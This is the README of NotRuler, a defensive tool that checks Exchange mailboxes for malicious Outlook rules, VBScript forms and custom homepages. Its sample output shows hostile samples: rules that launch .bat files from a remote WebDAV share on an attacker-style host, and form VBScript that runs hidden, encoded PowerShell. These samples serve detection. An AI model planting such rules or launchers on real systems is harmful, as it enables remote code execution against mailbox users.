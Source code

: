 # Introduction

NotRuler is the opposite of [Ruler]. The tool aims to make life a little easier for Exchange Admins by allowing for the detection of both client-side rules, VBScript enabled forms and custom homepages. At a miminum this should allow for the detection of all attacks created through [Ruler].

NotRuler allows you to interact with Exchange servers remotely, through either the MAPI/HTTP or RPC/HTTP protocol.

## What does it do?

NotRuler can query one or more Exchange mailboxes and detects client-side Outlook rules and VBScript enabled forms.

* Allows Exchange Admins to check for compromise
* Check your own account for compromise
* Extract stager address for Malicious rules
* Extract VBScript used in forms
* Extract a remote URL used as a homepage

# Getting Started

Compiled binaries for Linux, OSX and Windows are available. Find these in [Releases]
information about setting up Ruler from source is found in the [getting-started guide].

# Usage

NotRuler has two modes of operation:

* Rules -- check for client-side rules
* Forms -- check for VBScript enabled forms
* Homepage -- check for a custom homepage

## Rules

The current version of NotRuler can check either a single or multiple mailboxes. These are supplied in the program arguments.

To check multiple mailboxes, create a file with one account per line:

```
john.ford@testdomain.com
henry.hammond@testdomain.com
james.smith@testdomain.com
cindy.shell@testdomain.com
```

Using the Exchange Admin account, you should be able to log into any mailbox on the Exchange server:

```
./notruler --username exchangeadmin --mailboxes /path/to/mailbox.list rules
```

You can also check your own account by using ```--self```

```
./notruler --username john.ford@testdomain.com --mailbox john.ford@testdomain.com --self rules
```


Sample output:

```
[+] Checking [john.ford@testdomain.com]
[+] Found 5 rules
[WARNING] Found client-side rule: [01000000d97851c4:pewpew3] Application: [\\myhost.somewhere.darkside.com\dav\morebad.bat]
[WARNING] Found client-side rule: [01000000d97851b9:pewpew] Application: [\\myhost.somewhere.darkside.com\dav\bad.bat]
[+] Checking [cindy.shell@testdomain.com]
[+] No Rules Found
[+] Checking [henry.hammond@testdomain.com]
[+] No Rules Found
[+] Checking [james.smith@testdomain.com]
[+] No Rules Found
```

## Forms

Same as with Rules, you need to either have a list of mailboxes or a single mailbox to check. Simply swap "rules" for "forms":

Using the Exchange Admin account, you should be able to log into any mailbox on the Exchange server:

```
./notruler --username exchangeadmin --mailboxes /path/to/mailbox.list forms
```

You can also check your own account by using ```--self```

```
./notruler --username john.ford@testdomain.com --mailbox john.ford@testdomain.com --self forms
```

Sample output:

```
[+] Checking [john.ford@testdomain.com]
[WARNING] Found form with VBScript! [IPM.Note.badform]
    Function P()
CreateObject("Wscript.Shell").Run "powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAFkAUwB0AEUAbQAuAE4AZQBUAC4AUwBFAHIAdgBJAGMAZQBQAG8ASQBOAFQATQBBAG4AYQBHAEUAcgBdADoAOgBFAHgAcABlAGMAVAAxADAAMABDAG8ATgB0AGkATgBVAEUAIA=="

[+] Checking [cindy.shell@testdomain.com]
[+] Checking [henry.hammond@testdomain.com]
[+] Checking [james.smith@testdomain.com]
```

# IOCs

I've added a list of IOC's here: [iocs.md](https://github.com/sensepost/notruler/blob/master/iocs.md)

Feel free to submit Issues/PRs with further IOCs!

# License
[![License: CC BY-NC-SA 4.0](https://img.shields.io/badge/License-CC%20BY--NC--SA%204.0-lightgrey.svg)](http://creativecommons.org/licenses/by-nc-sa/4.0/)

Ruler is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License (http://creativecommons.org/licenses/by-nc-sa/4.0/) Permissions beyond the scope of this license may be available at http://sensepost.com/contact/.


[Ruler]: <https://github.com/sensepost/ruler>
[Releases]: <https://github.com/sensepost/notruler/releases>
